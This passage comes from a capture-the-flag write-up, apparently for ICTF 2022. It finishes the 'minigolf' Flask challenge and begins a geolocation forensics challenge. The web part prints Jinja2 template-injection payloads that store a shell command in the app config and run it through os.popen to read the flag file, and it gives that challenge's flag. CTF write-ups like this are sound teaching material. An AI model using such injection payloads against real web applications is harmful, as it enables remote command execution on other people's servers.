 The output of our new Frankenstein command gives us the directory file list.
This time the flag has a very simple name. The final step is to add a cat command
to the config and send our final payload.

>\{&#37;print(config.update(d=request.args.d))&#37;\}&d=cat%20flag.txt
>
>\{&#37;print(config.b.os.popen(config.d).read())&#37;\}

[![The minigolf flag printed](/assets/ICTF-2022/mini2.png)](/assets/ICTF-2022/mini2.png)
<figcaption align=center><b>Figure 8.2: Printing Out the Flag for Minigolf</b></figcaption>
&nbsp;

Finally, we have our flag and the challenge is complete!

>ictf{whats_in_the_flask_tho}

&nbsp;

## **Forensics**

### **journey**

>Max49 went on a trip... can you figure out where? The flag is >ictf{latitude_longitude}
>
>Created By: Max49

Ah, a classic location-finding challenge, one of my favorites. For this challenge,
we have a picture of some alley and we need to find the latitude and longitude of
the location.
